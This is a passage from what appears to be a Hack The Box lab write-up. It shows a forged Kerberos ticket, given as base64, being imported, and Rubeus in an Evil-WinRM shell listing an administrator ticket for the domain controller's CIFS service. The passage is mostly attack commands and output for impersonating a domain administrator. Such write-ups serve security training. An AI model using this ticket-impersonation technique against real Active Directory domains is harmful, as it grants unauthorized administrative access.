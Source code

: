 ```
      FRgPDmgG4NZa/tBwG+zWtb9BkV0J7srmzmd8+yvpkqHoooNCBrcvK924lqeT8KEQZebDGRzG/YFZPRgV
      l3B7yiHEzdwd4gktbrjjHHm1UftjlKerXZBh+oOc97zY1VrVWIC2HTJhlU2BsespOZObNsIacSryrxdb
      kDw9UpdMdxK83kVacK/lBXnY2AP1QigLyckU8Z5fQohfbtdrycuVVuSGbHvMnYbYUexFY1r3AC85WDgW
      anZehlEi3QAy8QDtaaKg9tVIObX0X2llhwLKcWE7sStGfyy/Ag8ee6cjjROE2dVR8V0+FeTt8DDoaiMd
      YQ287NI/L8fpEecC7HchXMXH+/ELez+mpr+P0U9QhO5i4fiPO9kcyNQZQnkf674bmZBEVywHMGmnpK24
      EBCYPujCHv0yUvMUR8gqSfuTxAuKjnqtw6+QnPD5Jtta8pxcAc68lZmBiCQAb9SKhU8/so6smvEp+TJK
      /N1veCeefr1y4UrJDcg9XgH0F+n2rYHZoLIJEvb5L5uQ/v6zeArVdj/KyBeBXUwe0q44qzZscmm8MgK4
      9jBSQ3rb4Grm7+jh+hJq9EKKwk7xwzbUrAo3wR6D7uPgIar57cYxbJgNlSiIJNdo3BHoFURHFZ+iW+Gp
      YhGX1Ey7gFXi/o/9KVm7JAGtr3wW6klwgUFbZq4S5dAN+TlooGAXBBDGZOFBD6/Fe7X6ud4bKJAOoTb5
      V0m5Nj5riBvl0j/3Bm/9rbrmpCVO9whLyl7Dj6BUBKJhmVbjCMVDScz5KXqya2exQVyz4zktchBuxbn6
      1wUi0xALE3UBX/jAW4vlp9EHM4CpiZQNWaHyNWgLyZ/0oQ98VzcUuVmPzp4ttVPFyeyywCVxcKV3tefn
      IZjL4A+HY1hsW2ANUOOUG8x+c0VSdU+vlhwxO+TcMh5YYPrIABKbqg0puE9JJ0UyMEJPIP+9wC14QwhL
      Dn1aYrSV9+GJdzJMuQ9QUXPOkZ0AQ3GhOvi4VUUgbgbx5mYv5eMu8Z22dK4TRU+1XTQSIMhjnM8vArb/
      1KtgX80ExEfkY+Mnzlpt9pbpJdR/8OMrU6MfKPqlbfSPOoNfiQpxKtc39zcuVHA77RIwI9pjpupXwZU/
      RwpkUn122y+8Nr1p6Ar8PqGq19UZZOWlZErio1w9H+nx3cT4idiXaJPi5DAC12Ijw9Bkulan91w0Uzkr
      43PnL96hHIq0N2NZJ4TiPn+Diy7ExFrreKw62xI6fSI1XKyk2GFINwN2HFt/dTtNr5McJ3khFTLm0QRa
      WPLHv5Y+7Rf8Z8JPzjp9iL2zTXBVtxhodbZFWZ0cOAe6C5Lc8DUG0+jvKEtBNpBs1qiRY/lbcSRVCjfL
      9lxBjIwHbAyAUuI/OIjMqmeJyPBBME4XtvJk6OgKeCe9whtry0BoY8yqHzVMZjY7G7XoSzScOsFpPEt9
      /JquHBELKSIxZth9k6YQLs30jxiwk9h7Zbo/GjksQtVIQsJq+MiUP4YsEMIHEQ4qjSUem9FE5RLgROj4
      o4HZMIHWoAMCAQCigc4Egct9gcgwgcWggcIwgb8wgbygGzAZoAMCARGhEgQQLgHOX+J0UcIIH7C0outX
      saENGwtTVVBQT1JULkhUQqIaMBigAwIBCqERMA8bDWFkbWluaXN0cmF0b3KjBwMFAEClAAClERgPMjAy
      MjA1MjcxOTM4MTdaphEYDzIwMjIwNTI4MDUzODE3WqcRGA8yMDIyMDYwMzE5MzgxN1qoDRsLU1VQUE9S
      VC5IVEKpITAfoAMCAQKhGDAWGwRjaWZzGw5kYy5zdXBwb3J0Lmh0Yg==
[+] Ticket successfully imported!

```

### Use Ticket

#### Fails

In theory, I should be able to use this ticket right now. `Rubeus` shows the ticket in this session:

```
*Evil-WinRM* PS C:\programdata> .\Rubeus.exe klist
...[snip]...
Action: List Kerberos Tickets (Current User)

[*] Current LUID    : 0x65f382

  UserName                 : support
  Domain                   : SUPPORT
  LogonId                  : 0x65f382
  UserSID                  : S-1-5-21-1677581083-3380853377-188903654-1105
  AuthenticationPackage    : NTLM
  LogonType                : Network
  LogonTime                : 5/27/2022 12:15:24 PM
  LogonServer              : DC
  LogonServerDNSDomain     : support.htb
  UserPrincipalName        : support@support.htb

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 5/27/2022 12:38:17 PM ; 5/27/2022 10:38:17 PM ; 6/3/2022 12:38:17 PM
      Server Name       : cifs/dc.support.htb @ SUPPORT.HTB
      Client Name       : administrator @ SUPPORT.HTB
      Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)

```
